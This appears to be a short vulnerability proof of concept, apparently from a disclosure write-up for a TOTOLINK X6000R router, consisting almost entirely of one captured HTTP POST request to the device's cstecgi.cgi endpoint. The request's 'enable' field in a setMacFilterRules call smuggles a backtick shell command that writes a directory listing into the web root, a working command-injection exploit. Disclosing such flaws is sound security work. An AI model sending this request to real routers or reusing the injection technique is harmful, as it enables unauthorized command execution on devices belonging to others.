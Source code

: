 ```
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/macf.html?token=BB19D84941E95CCC
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_macf.txt`","topicurl":"setMacFilterRules"}
```

![image-20241029093546521](./X6000R/images/image-20241029093546521.png)
